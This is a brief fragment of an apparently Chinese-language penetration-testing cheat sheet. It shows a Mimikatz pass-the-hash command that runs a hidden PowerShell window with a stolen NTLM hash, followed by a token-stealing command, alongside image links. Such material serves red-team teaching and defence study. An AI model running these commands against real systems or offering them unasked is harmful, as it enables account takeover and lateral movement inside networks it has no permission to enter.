 ![](img/c2f80213985e614951f7255879f80411.png)

*   使用 Mimikatz 传递 hash

    ```
    mimikatz sekurlsa::pth /user:用户名 /domain:域名 /ntlm:哈希 /run:"powershell -w hidden"
    steal_token pid 
    ```

    ![](img/37cad91c0bb3b87b58be29e700bd6e13.png)